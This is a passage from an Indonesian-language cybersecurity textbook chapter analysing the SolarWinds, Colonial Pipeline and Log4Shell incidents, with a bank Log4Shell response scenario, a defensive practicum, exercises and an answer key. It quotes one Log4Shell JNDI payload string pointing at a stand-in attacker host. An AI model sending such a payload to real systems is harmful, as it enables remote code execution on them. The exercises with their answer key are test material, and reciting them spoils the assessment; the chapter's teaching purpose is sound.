**Latar Belakang:** SolarWinds adalah perusahaan perangkat lunak manajemen IT yang produknya, Orion, digunakan oleh lebih dari 33.000 organisasi termasuk hampir semua lembaga pemerintah federal AS dan perusahaan Fortune 500.

**Mekanisme Serangan:**
Penyerang (kemudian diidentifikasi sebagai APT29/Cozy Bear, dikaitkan dengan SVR — badan intelijen luar negeri Rusia) menyusup ke sistem pengembangan SolarWinds dan menyuntikkan kode berbahaya (*SUNBURST malware*) ke dalam pembaruan perangkat lunak Orion versi 2019.4 hingga 2020.2.1. Pembaruan ini ditandatangani secara sah dengan sertifikat digital SolarWinds, sehingga tidak terdeteksi oleh mekanisme verifikasi standar.

**Timeline:**
- Oktober 2019: Penyerang pertama kali mengakses sistem SolarWinds
- Maret 2020: Pembaruan berbahaya mulai didistribusikan ke pelanggan
- Desember 2020: FireEye mendeteksi dan mengungkap serangan
- Sekitar 9 bulan durasi penyusupan tanpa terdeteksi

**Dampak:**
- Lebih dari 18.000 organisasi mengunduh pembaruan berbahaya
- Sekitar 100 perusahaan swasta dan 9 lembaga pemerintah AS terdampak signifikan
- Data sensitif pemerintah AS berpotensi terekspos selama berbulan-bulan
- Kerugian finansial dan reputasional mencapai miliaran dolar

**Kegagalan Prinsip Keamanan:**
- **Kurangnya Zero Trust**: Sistem internal SolarWinds mempercayai semua komponen build pipeline tanpa verifikasi berkelanjutan
- **Lack of Supply Chain Security**: Tidak ada verifikasi integritas kode yang memadai di pipeline CI/CD
- **Insufficient Monitoring**: Aktivitas anomali yang berlangsung selama berbulan-bulan tidak terdeteksi
- **Least Privilege Violation**: SUNBURST malware memiliki akses istimewa yang berlebihan setelah terinstal

**Pelajaran yang Dapat Dipetik:**
- Kepercayaan implisit (*implicit trust*) pada vendor dan mitra adalah risiko keamanan yang serius
- Pipeline pengembangan perangkat lunak (*CI/CD pipeline*) harus diperlakukan sebagai perimeter keamanan kritis
- Deteksi anomali dan *threat hunting* proaktif sangat diperlukan

#### 4.3.2 Serangan Colonial Pipeline (2021)

**Latar Belakang:** Colonial Pipeline adalah operator pipa bahan bakar terbesar di AS, menyuplai sekitar 2,5 juta barel per hari ke pantai timur AS.

**Mekanisme Serangan:**
Pada 7 Mei 2021, kelompok ransomware **DarkSide** mengeksekusi serangan dengan mengenkripsi sistem IT Colonial Pipeline. Kredensial yang digunakan untuk mengakses sistem diperoleh dari *dark web* — kemungkinan besar dari pelanggaran data sebelumnya. Akun VPN yang dikompromikan tidak memiliki autentikasi multi-faktor (*Multi-Factor Authentication/MFA*).

**Dampak:**
- Colonial Pipeline menghentikan operasi secara preventif selama 6 hari
- Panik pembelian bahan bakar di 17 negara bagian AS timur
- Harga bensin naik secara signifikan
- Colonial Pipeline membayar tebusan sekitar 4,4 juta USD dalam Bitcoin (kemudian sebagian berhasil dipulihkan oleh FBI)

**Kegagalan Prinsip Keamanan:**
- **Kurangnya MFA**: Akun VPN tanpa MFA menjadi pintu masuk serangan
- **Credential Hygiene**: Kredensial yang telah bocor tidak dirotasi atau dinonaktifkan
- **Segregasi Jaringan IT/OT**: Meskipun serangan menargetkan jaringan IT, manajemen memilih menghentikan operasi OT (pipa fisik) secara preventif karena khawatir serangan dapat menyebar
- **Incident Response Planning**: Rencana respons insiden tidak cukup komprehensif untuk skenario ransomware skala besar

**Pelajaran yang Dapat Dipetik:**
- MFA adalah kontrol dasar yang tidak dapat diabaikan, terutama untuk akses remote
- Manajemen kredensial yang lemah adalah salah satu vektor serangan yang paling umum
- Infrastruktur kritis memerlukan perencanaan respons insiden yang matang dan diuji secara berkala

#### 4.3.3 Kerentanan Log4Shell (CVE-2021-44228)

**Latar Belakang:** Apache Log4j adalah pustaka logging open-source untuk Java yang digunakan secara luas — dari server game Minecraft hingga platform cloud enterprise, layanan perbankan, dan infrastruktur pemerintah.

**Mekanisme Kerentanan:**
Log4Shell mengeksploitasi fitur *JNDI Lookup* (Java Naming and Directory Interface) di Log4j. Ketika sebuah aplikasi menggunakan Log4j untuk mencatat (*log*) input pengguna yang berisi string khusus seperti `${jndi:ldap://attacker.com/exploit}`, Log4j secara otomatis mencoba mengunduh dan mengeksekusi kode dari server yang dikontrol penyerang. Ini adalah kasus **Remote Code Execution (RCE)** yang sangat serius karena:
- Mudah dieksploitasi (hanya membutuhkan satu baris string)
- Sering tersembunyi dalam dependensi yang tidak diketahui (*transitive dependency*)
- Log4j tertanam dalam ratusan produk komersial dan open-source

**Dampak:**
- Skor CVSS 3.1: **10.0 (Critical)** — skor tertinggi yang mungkin
- Dieksploitasi secara aktif dalam hitungan jam setelah diumumkan
- Mempengaruhi jutaan sistem di seluruh dunia
- Memerlukan waktu berminggu-minggu bahkan berbulan-bulan untuk mitigasi penuh karena kompleksitas *dependency chain*

**Kegagalan Prinsip Keamanan:**
- **Software Composition Analysis (SCA)**: Banyak organisasi tidak mengetahui bahwa mereka menggunakan Log4j
- **Patch Management**: Penerapan patch yang lambat karena identifikasi dependensi yang tidak akurat
- **Input Validation**: Log4j memproses input pengguna tanpa sanitasi yang memadai
- **Defense-in-Depth**: Banyak sistem tidak memiliki lapisan pertahanan tambahan yang dapat mengurangi dampak RCE

**Pelajaran yang Dapat Dipetik:**
- *Software Bill of Materials (SBOM)* — daftar lengkap semua komponen perangkat lunak — adalah alat manajemen risiko yang esensial
- Kerentanan dalam dependensi open-source dapat memiliki dampak yang jauh lebih luas dari kerentanan dalam kode milik sendiri
- Keamanan aplikasi (*AppSec*) harus mencakup seluruh rantai dependensi

### 4.4 Kerangka Konseptual: Mengapa Keamanan Siber Selalu Merupakan Perlombaan?

Keamanan siber pada dasarnya adalah **permainan asimetris** (*asymmetric game*): penyerang hanya perlu berhasil sekali, sementara defender harus berhasil setiap saat. Ini menjelaskan mengapa bahkan organisasi dengan anggaran keamanan yang besar pun masih dapat dikompromikan.

Selain asimetri tersebut, keamanan siber juga merupakan **permainan yang terus berkembang** karena:
1. **Ekspansi permukaan serangan**: Setiap perangkat baru yang terhubung ke jaringan adalah potensi titik masuk bagi penyerang.
2. **Meningkatnya kompleksitas sistem**: Sistem modern yang terdiri dari microservices, API, cloud, dan third-party dependencies menciptakan titik kelemahan yang hampir mustahil untuk dipetakan secara lengkap.
3. **Ketidakseimbangan insentif**: Penyerang termotivasi secara finansial (ransomware, pencurian data) atau politis (cyber espionage, sabotase), sementara defender sering kali beroperasi dengan anggaran dan sumber daya yang terbatas.
4. **Kecepatan inovasi teknologi**: Teknologi baru (AI, IoT, quantum computing) terus menciptakan vektor serangan baru yang sering kali mendahului kesiapan pertahanan.

---

## 5. Model atau Arsitektur

### 5.1 Evolusi Paradigma Keamanan Siber



### 5.2 Model Analisis Insiden: Root Cause → Kegagalan Kontrol → Dampak



---

## 6. Contoh Terapan

### Studi Kasus: Analisis Dampak Log4Shell pada Sebuah Bank Regional

**Konteks Kasus:**
Sebuah bank regional Indonesia dengan aset di atas Rp 50 triliun menggunakan beberapa aplikasi berbasis Java untuk sistem perbankannya, termasuk platform layanan nasabah online, sistem pelaporan internal, dan platform manajemen risiko dari vendor pihak ketiga.

**Aset yang Dilindungi:**
- Data nasabah (nama, NIK, nomor rekening, riwayat transaksi) — sekitar 2 juta nasabah
- Sistem transaksi yang memproses rata-rata Rp 500 miliar per hari
- Data pelaporan ke OJK dan Bank Indonesia
- Reputasi dan kepercayaan nasabah

**Ancaman:**
Pengumuman Log4Shell (CVE-2021-44228) pada 9 Desember 2021 memicu kepanikan di tim IT/keamanan bank. Dalam 24 jam pertama, sudah terdapat laporan eksploitasi aktif dari seluruh dunia.

**Proses Analisis:**
1. **Inventarisasi Aset (Hari 0-1)**: Tim keamanan harus mengidentifikasi seluruh sistem yang menggunakan Java dan menentukan apakah mereka menggunakan Log4j. Tidak ada SBOM yang tersedia, sehingga proses ini membutuhkan analisis manual dan scanning tool (seperti `log4j-scanner`).

2. **Triase Risiko (Hari 1-2)**: Dari total 47 sistem yang ditemukan menggunakan Java, 12 di antaranya menggunakan Log4j versi yang rentan. Dari 12 sistem tersebut, 3 di antaranya menghadap internet secara langsung dan menjadi prioritas penanganan utama.

3. **Implementasi Mitigasi Darurat (Hari 2-3)**: Karena patch belum tersedia untuk semua sistem, mitigasi sementara diterapkan:
   - Menambahkan variabel lingkungan `LOG4J_FORMAT_MSG_NO_LOOKUPS=true`
   - Memperbarui `log4j2.formatMsgNoLookups=true` dalam konfigurasi
   - Memblokir egress traffic ke port LDAP/LDAPS dari server yang rentan

4. **Patching (Hari 3-14)**: Dua sistem yang dikelola sendiri berhasil diperbarui ke Log4j 2.17.0 dalam 3 hari. Namun, 1 sistem menggunakan produk vendor pihak ketiga yang memerlukan 14 hari untuk mendapatkan patch resmi dari vendor.

**Keputusan Teknis/Manajerial:**
- CISO memutuskan untuk menonaktifkan sementara fitur non-esensial pada sistem yang rentan dan menghadap internet
- Tim SOC meningkatkan monitoring dan alerting untuk traffic JNDI lookup
- Vendor pihak ketiga diminta memberikan attestation tertulis bahwa sistem mereka tidak terekspos

**Bukti yang Dikumpulkan:**
- Log traffic jaringan yang menunjukkan upaya eksploitasi (terdapat 340 percobaan dalam 48 jam pertama)
- Hash kriptografis dari versi Log4j yang diidentifikasi di setiap sistem
- Screenshot hasil scanning yang menunjukkan sistem mana yang rentan dan mana yang telah di-patch
- Rekaman perubahan konfigurasi dan patch management

**Hasil yang Diharapkan:**
- Tidak ada eksploitasi sukses yang terdeteksi selama periode kerentanan
- Semua sistem yang rentan berhasil di-patch atau dimitigasi dalam 14 hari
- Prosedur SBOM management diterapkan sebagai pelajaran dari insiden ini

---

## 7. Praktikum atau Aktivitas Terarah

### Praktikum 1.1: Analisis Insiden dan Pemetaan Kegagalan Kontrol

**Tujuan Praktikum:**
Melatih kemampuan mahasiswa untuk menganalisis insiden keamanan siber nyata, mengidentifikasi kegagalan kontrol yang mendasarinya, dan menghubungkan insiden dengan prinsip keamanan yang relevan.

**Prasyarat:**
- Akses internet untuk membaca laporan resmi (FireEye, CISA, NIST)
- Template analisis insiden (lihat Lampiran A)
- Pemahaman dasar tentang konsep keamanan informasi

**Lingkungan Lab:**
Tidak diperlukan lingkungan lab khusus. Praktikum ini berbasis analisis dokumen dan diskusi.

**Dataset/Artefak:**
- Laporan resmi CISA tentang serangan SolarWinds: [CISA AA20-352A](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-352a)
- Laporan FBI/CISA tentang Colonial Pipeline: [CISA AA21-131A](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-131a)
- NIST advisory tentang Log4Shell: [NIST NVD CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

**Langkah Kerja Tingkat Tinggi:**

1. **Baca laporan insiden** yang ditugaskan (setiap kelompok mendapatkan satu insiden).
2. **Identifikasi lima elemen kunci**:
   - Siapa pelaku (aktor ancaman)?
   - Apa vektor serangan (*attack vector*)?
   - Apa kerentanan yang dieksploitasi?
   - Kontrol keamanan apa yang gagal atau tidak ada?
   - Apa dampak teknis dan bisnis dari insiden?
3. **Petakan kegagalan** ke prinsip keamanan (CIA triad, least privilege, defense-in-depth, dll.)
4. **Rekomendasikan tiga kontrol** yang, jika diterapkan, dapat mencegah atau mengurangi dampak insiden.
5. **Presentasikan temuan** dalam format laporan singkat (2 halaman) dan presentasi 5 menit.

**Bukti yang Harus Dikumpulkan:**
- Ringkasan insiden (1 halaman, format terstruktur)
- Tabel kegagalan kontrol (format: Kegagalan | Prinsip Keamanan | Kontrol Rekomendasi)
- Daftar referensi laporan yang dibaca

**Format Laporan:**
Gunakan Template Laporan Analisis Insiden (Lampiran A.1).

**Kriteria Keberhasilan:**
- Identifikasi minimal 3 kegagalan kontrol yang benar
- Rekomendasi kontrol yang relevan dan dapat diterapkan
- Penggunaan terminologi keamanan siber yang tepat
- Laporan yang terstruktur dan berbasis bukti (bukan opini)

⚠️ **Catatan Etika dan Keselamatan:**
Praktikum ini menggunakan laporan insiden publik yang telah tersedia secara legal. Mahasiswa dilarang mencoba mereplikasi teknik serangan yang dideskripsikan, mengakses sistem yang tidak dimiliki atau tidak memiliki otorisasi, atau menggunakan informasi dari laporan ini untuk tujuan ofensif. Fokus praktikum adalah analisis defensif dan perumusan rekomendasi pencegahan.

---

## 8. Latihan Pemahaman

**Petunjuk:** Kerjakan semua soal berikut. Untuk soal pilihan ganda, pilih satu jawaban yang paling tepat. Untuk soal esai, berikan jawaban terstruktur dengan argumentasi yang didukung referensi.

---

**Soal 1 (Pilihan Ganda)**

Penyerang yang berhasil memasukkan kode berbahaya ke dalam pembaruan perangkat lunak SolarWinds Orion dikategorikan sebagai serangan:

A. Phishing attack  
B. Supply chain attack  
C. Man-in-the-middle attack  
D. Zero-day exploit  

---

**Soal 2 (Pilihan Ganda)**

Skor CVSS 10.0 pada CVE-2021-44228 (Log4Shell) mengindikasikan bahwa:

A. Kerentanan ini sangat mudah ditemukan namun sulit dieksploitasi  
B. Kerentanan ini membutuhkan akses fisik ke sistem untuk dieksploitasi  
C. Kerentanan ini kritis karena dapat dieksploitasi dari jarak jauh tanpa autentikasi  
D. Kerentanan ini hanya berdampak pada kerahasiaan data, bukan integritas  

---

**Soal 3 (Esai Singkat)**

Jelaskan perbedaan antara *keamanan informasi* (*information security*) dan *keamanan siber* (*cybersecurity*). Berikan dua contoh ancaman yang termasuk dalam ranah keamanan informasi tetapi tidak termasuk dalam ranah keamanan siber. (Jawaban: 150-200 kata)

---

**Soal 4 (Analisis Kasus)**

Sebuah perusahaan logistik mengalami gangguan sistem selama 8 jam akibat ransomware. Investigasi awal menemukan bahwa penyerang masuk melalui akun VPN milik kontraktor yang menggunakan password sederhana tanpa MFA. Tim IT kemudian juga menemukan bahwa 15% dari sistem perusahaan belum diperbarui dengan patch keamanan terbaru.

Berdasarkan kasus di atas:
a) Identifikasi dua kegagalan prinsip keamanan yang paling kritis.
b) Jelaskan mengapa masing-masing kegagalan tersebut berbahaya.
c) Rekomendasikan satu kontrol spesifik untuk setiap kegagalan.

---

**Soal 5 (Perbandingan Konsep)**

Bandingkan serangan SolarWinds dan serangan Colonial Pipeline dari perspektif:
a) Vektor serangan (*attack vector*)
b) Aktor ancaman
c) Dampak operasional
d) Kontrol keamanan yang perlu diperkuat

Format jawaban dalam bentuk tabel perbandingan.

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus 1: Insiden Keamanan di Instansi Pemerintah Daerah

Sebuah pemerintah daerah (*pemda*) dengan 5.000 ASN (Aparatur Sipil Negara) mengalami insiden berikut:

Pada pukul 02.30 WIB, sistem monitoring jaringan mendeteksi traffic anomali dari server pelayanan publik. Investigasi singkat menunjukkan bahwa server tersebut sedang mengirimkan data dalam jumlah besar ke alamat IP di luar negeri. Pada pukul 06.00 WIB, masyarakat mulai melaporkan tidak dapat mengakses layanan online pemda (e-KTP, perizinan online, informasi publik).

Tim IT pemda kemudian menemukan:
- Server pelayanan publik menjalankan Apache Struts versi lama yang memiliki kerentanan yang sudah diketahui sejak 2017
- Log akses menunjukkan bahwa penyerang pertama kali masuk 3 bulan yang lalu
- Database yang bocor berisi data 500.000 warga, termasuk NIK, alamat, nomor telepon, dan foto KTP
- Tidak ada *intrusion detection system* (IDS) yang terpasang
- Tidak ada proses manajemen patch yang terdokumentasi

**Pertanyaan:**

1. **Analisis (C4)**: Identifikasi dan jelaskan minimal lima kegagalan keamanan yang terjadi. Untuk setiap kegagalan, jelaskan bagaimana kegagalan tersebut berkontribusi pada terjadinya insiden dan dampaknya.

2. **Evaluasi (C5)**: Jika Anda adalah CISO yang baru ditunjuk setelah insiden ini, buatlah prioritas penanganan jangka pendek (0-30 hari), jangka menengah (30-90 hari), dan jangka panjang (90-365 hari). Justifikasikan setiap prioritas berdasarkan risiko, dampak, dan sumber daya yang tersedia.

### Studi Kasus 2: Kesiapan Organisasi Menghadapi Supply Chain Attack

Perusahaan manufaktur skala menengah menggunakan 12 perangkat lunak dari vendor yang berbeda untuk operasionalnya (ERP, SCADA, HR, accounting, dsb.). Manajemen meminta Anda sebagai konsultan keamanan siber untuk mengevaluasi risiko supply chain attack pasca-insiden SolarWinds.

**Pertanyaan:**

1. **Analisis (C4)**: Identifikasi tiga skenario supply chain attack yang paling mungkin menargetkan perusahaan manufaktur. Untuk setiap skenario, jelaskan vektor serangan, dampak potensial, dan indikator kompromi (*Indicators of Compromise/IoC*) yang perlu dipantau.

2. **Rekomendasi Berbasis Risiko (C5)**: Susun rekomendasi penanganan risiko supply chain yang realistis (mempertimbangkan keterbatasan anggaran dan kapasitas tim IT perusahaan menengah). Gunakan framework risiko sederhana (Probabilitas × Dampak) untuk memprioritaskan rekomendasi Anda.

---

## 10. Kunci Jawaban dan Pembahasan

### Soal 1 — Kunci Jawaban: **B. Supply chain attack**

**Jawaban Akhir:** B

**Penjelasan Teoritis:**
*Supply chain attack* (serangan rantai pasok) adalah jenis serangan di mana penyerang menargetkan **rantai distribusi perangkat lunak atau layanan** alih-alih menargetkan organisasi korban secara langsung. Dalam kasus SolarWinds, penyerang menyuntikkan kode berbahaya ke dalam proses build perangkat lunak SolarWinds Orion, sehingga setiap pengguna yang memperbarui perangkat lunak tersebut secara otomatis menginstal malware.

**Mengapa Jawaban Lain Kurang Tepat:**
- **(A) Phishing attack**: Phishing adalah serangan rekayasa sosial yang mencoba menipu pengguna agar mengungkapkan kredensial atau mengklik tautan berbahaya. SolarWinds tidak menggunakan teknik ini.
- **(C) Man-in-the-middle attack**: MITM melibatkan penyadapan komunikasi antara dua pihak. Mekanisme SolarWinds berbeda — malware ditanamkan langsung dalam perangkat lunak.
- **(D) Zero-day exploit**: Zero-day adalah eksploitasi terhadap kerentanan yang belum diketahui publik atau belum ada patchnya. SolarWinds menggunakan penyusupan ke dalam pipeline pengembangan, bukan eksploitasi kerentanan spesifik dalam produknya.

**Kaitan dengan Konsep Utama Bab:**
Serangan ini menggambarkan evolusi ancaman ke era *supply chain attacks* di mana kepercayaan implisit pada vendor menjadi vektor serangan yang sangat efektif.

**Kaitan dengan Standar/Framework:**
NIST SP 800-161 Rev.1 (Cybersecurity Supply Chain Risk Management) mengidentifikasi supply chain risk sebagai salah satu risiko keamanan yang harus dikelola secara sistematis.

---

### Soal 2 — Kunci Jawaban: **C**

**Jawaban Akhir:** C — Kerentanan ini kritis karena dapat dieksploitasi dari jarak jauh tanpa autentikasi.

**Penjelasan Teoritis:**
Skor CVSS (Common Vulnerability Scoring System) 10.0 merupakan skor maksimum yang mencerminkan kondisi terburuk dalam setiap metrik:
- *Attack Vector*: Network (dapat dieksploitasi melalui jaringan dari jarak jauh)
- *Attack Complexity*: Low (tidak memerlukan kondisi khusus)
- *Privileges Required*: None (tidak memerlukan autentikasi)
- *User Interaction*: None (tidak memerlukan interaksi dari korban)
- *Scope*: Changed (dampak melampaui komponen yang rentan)
- *Confidentiality/Integrity/Availability Impact*: High

Kombinasi ini menghasilkan skor 10.0 — kerentanan yang paling mudah dieksploitasi dengan dampak paling besar.

**Mengapa Jawaban Lain Kurang Tepat:**
- **(A)** Salah karena Log4Shell justru sangat mudah dieksploitasi (CVSS Attack Complexity: Low)
- **(B)** Salah karena Log4Shell dieksploitasi melalui jaringan, bukan akses fisik
- **(D)** Salah karena Log4Shell berdampak pada ketiga aspek CIA: confidentiality (data bisa dicuri), integrity (sistem bisa dimodifikasi), dan availability (sistem bisa dihancurkan)

---

### Soal 3 — Panduan Jawaban

**Jawaban Akhir:**
*Information Security* adalah disiplin yang lebih luas yang mencakup perlindungan informasi dalam semua bentuk dan media, termasuk fisik dan digital. *Cybersecurity* adalah subset yang fokus pada perlindungan informasi dan sistem dalam ranah digital/siber.

**Contoh Ancaman dalam InfoSec tapi Bukan Cybersecurity:**
1. **Pencurian dokumen fisik**: Seseorang yang mengambil folder berisi data rahasia dari lemari arsip tidak terkunci adalah ancaman keamanan informasi (melanggar *confidentiality*), tetapi bukan ancaman siber karena tidak melibatkan sistem digital atau jaringan.
2. **Eavesdropping percakapan**: Seseorang yang mencuri dengar rapat rahasia tentang strategi bisnis melanggar kerahasiaan informasi, tetapi ini adalah ancaman fisik/sosial, bukan siber.

**Teori yang Mendasari:**
Perbedaan ini penting secara praktis karena menentukan kontrol yang tepat. Ancaman fisik memerlukan kontrol fisik (kunci, kamera CCTV, pembatasan akses ruangan), sementara ancaman siber memerlukan kontrol teknis (enkripsi, firewall, autentikasi).

**Kesalahan Umum:**
Banyak mahasiswa menyamakan keduanya. Ingat: semua cybersecurity adalah information security, tetapi tidak semua information security adalah cybersecurity.

---

### Soal 4 — Panduan Jawaban

**a) Dua Kegagalan Prinsip Keamanan Paling Kritis:**

1. **Kegagalan Autentikasi yang Kuat (Lemahnya kontrol akses)**: Penggunaan password sederhana tanpa MFA untuk akun VPN kontraktor merupakan kegagalan fundamental dalam kontrol autentikasi. Kontraktor memiliki akses ke jaringan internal perusahaan — kategori yang memerlukan tingkat perlindungan tinggi.

2. **Kegagalan Patch Management (Kontrol preventif teknis)**: 15% sistem yang belum diperbarui menunjukkan tidak adanya proses manajemen patch yang sistematis. Ransomware modern sering mengeksploitasi kerentanan yang sudah dikenal dan sudah ada patchnya.

**b) Mengapa Masing-Masing Berbahaya:**
1. VPN tanpa MFA adalah "pintu masuk" yang sangat lemah karena credential kontraktor dapat diperoleh melalui phishing, credential stuffing, atau pembelian di dark web. Sekali kredensial dikompromikan, penyerang memiliki akses sah ke jaringan internal.
2. Sistem yang belum di-patch adalah "pintu terbuka" bagi penyerang. Banyak ransomware mengeksploitasi kerentanan yang sudah ada patchnya — berarti serangan yang terjadi *seharusnya dapat dicegah*.

**c) Kontrol Rekomendasi:**
1. **Implementasi MFA wajib** untuk semua akses remote (VPN, RDP, cloud portal). Prioritaskan autentikator berbasis TOTP atau FIDO2, bukan SMS OTP.
2. **Program patch management terstruktur** dengan siklus: inventarisasi aset → monitoring kerentanan (NVD/CISA KEV) → triase risiko → implementasi patch → verifikasi. Target: patch kritis dalam 24-72 jam, patch high dalam 7-14 hari.

---

### Soal 5 — Tabel Perbandingan

| Aspek | SolarWinds (2020) | Colonial Pipeline (2021) |
|---|---|---|
| **Vektor Serangan** | Supply chain (kode berbahaya dalam pembaruan perangkat lunak resmi) | Credential compromise (akun VPN tanpa MFA) |
| **Aktor Ancaman** | APT29/Cozy Bear — nation-state, disponsori pemerintah Rusia | DarkSide — kelompok cybercriminal berbasis ransomware-as-a-service |
| **Dampak Operasional** | Infiltrasi diam-diam selama 9 bulan; exfiltration data sensitif; tidak ada downtime langsung | Downtime operasional 6 hari; krisis pasokan bahan bakar regional |
| **Kontrol yang Perlu Diperkuat** | Zero trust architecture; supply chain security; CI/CD pipeline security; threat hunting | MFA untuk semua akses remote; credential management; IT/OT network segmentation; incident response planning |

---

### Studi Kasus 1 — Panduan Jawaban

**Pertanyaan 1 — Lima Kegagalan Keamanan:**

1. **Kegagalan Patch Management**: Apache Struts versi lama dengan kerentanan yang diketahui sejak 2017 masih berjalan 4+ tahun kemudian. Ini menunjukkan tidak adanya program manajemen patch yang efektif atau inventarisasi aset yang akurat.

2. **Kurangnya Intrusion Detection/Prevention**: Tidak ada IDS berarti penyerang berhasil beroperasi selama 3 bulan tanpa terdeteksi. Deteksi baru terjadi ketika terdapat anomali traffic yang sangat jelas (exfiltration data besar-besaran).

3. **Kurangnya Monitoring Berkelanjutan**: Meskipun IDS tidak ada, bahkan log yang ada tidak dipantau secara aktif. Penyerang yang masuk 3 bulan lalu pasti meninggalkan jejak dalam log akses.

4. **Kerentanan Aplikasi Web (Outdated Software)**: Penggunaan Apache Struts yang sudah obsolete menunjukkan tidak adanya manajemen siklus hidup aset IT. Software lifecycle management seharusnya mencakup identifikasi software yang mendekati end-of-life dan perencanaan upgrade.

5. **Tidak Ada Enkripsi Data Sensitif**: Data 500.000 warga (NIK, foto KTP, dsb.) yang bocor mengindikasikan bahwa data sensitif tidak dienkripsi di tingkat penyimpanan (*at-rest encryption*). Jika data dienkripsi, eksfiltrasi tidak akan langsung mengakibatkan kebocoran informasi yang dapat digunakan.

**Pertanyaan 2 — Prioritas Tindakan:**

| Periode | Prioritas | Justifikasi |
|---|---|---|
| **0-30 hari** (Jangka Pendek) | 1. Isolasi dan forensik sistem yang dikompromikan; 2. Notifikasi pelanggaran data ke BSSN dan Kominfo; 3. Ganti semua credential yang mungkin terekspos; 4. Deploy WAF dan IDS darurat | Menghentikan perdarahan aktif, memenuhi kewajiban hukum (UU PDP/UU ITE), mencegah eksploitasi lebih lanjut |
| **30-90 hari** (Jangka Menengah) | 1. Audit dan patch seluruh sistem; 2. Implementasi SIEM dasar; 3. Pelatihan security awareness untuk staf IT; 4. Review kebijakan akses dan privilege | Menutup kerentanan aktif dan meningkatkan kemampuan deteksi |
| **90-365 hari** (Jangka Panjang) | 1. Implementasi program patch management formal; 2. Pengembangan Security Operations Center (SOC) dasar; 3. Adopsi NIST CSF sebagai framework governance; 4. Pengujian penetrasi tahunan | Membangun postur keamanan yang berkelanjutan dan dapat diaudit |

---

### Studi Kasus 2 — Panduan Jawaban

**Pertanyaan 1 — Tiga Skenario Supply Chain Attack:**

1. **Skenario: Kompromi Software Update ERP**
   - *Vektor*: Penyerang menyusup ke vendor ERP dan menyuntikkan backdoor dalam pembaruan rutin
   - *Dampak*: Akses ke seluruh data operasional, keuangan, dan SDM perusahaan
   - *IoC*: Traffic jaringan anomali ke IP asing dari server ERP; proses baru yang tidak dikenal berjalan; perubahan tidak terduga pada file sistem

2. **Skenario: Kompromi Rantai Dependensi Open-Source**
   - *Vektor*: Pustaka open-source yang digunakan dalam software internal perusahaan dikompromikan (seperti event-stream npm, 2018)
   - *Dampak*: Eksekusi kode berbahaya dalam lingkungan produksi; pencurian data atau credential
   - *IoC*: Perubahan hash pada pustaka yang sudah terinstal; aktivitas jaringan dari proses yang tidak terduga; alert dari dependency security scanner

3. **Skenario: Kompromi Vendor Remote Access**
   - *Vektor*: Vendor pemeliharaan SCADA/ERP yang memiliki akses remote ke jaringan perusahaan dikompromikan
   - *Dampak*: Akses langsung ke sistem kritis melalui "pintu samping" yang sah
   - *IoC*: Sesi akses remote di luar jam kerja normal; aktivitas admin dari vendor tanpa tiket resmi; perubahan konfigurasi yang tidak diotorisasi

**Pertanyaan 2 — Rekomendasi Berbasis Risiko:**

| Rekomendasi | Probabilitas | Dampak | Skor Risiko | Prioritas |
|---|---|---|---|---|
| Implementasi MFA untuk semua vendor access | Tinggi | Tinggi | 9 | **1 — Segera** |
| Audit kontrak vendor (klausa keamanan dan NDA) | Sedang | Tinggi | 6 | **2 — 30 hari** |
| Dependency scanning otomatis dalam CI/CD | Sedang | Sedang | 4 | **3 — 60 hari** |
| Software Bill of Materials (SBOM) untuk sistem kritis | Rendah | Tinggi | 3 | **4 — 90 hari** |
| Penetration testing supply chain | Rendah | Tinggi | 3 | **5 — 180 hari** |

---

## 11. Ringkasan Bab

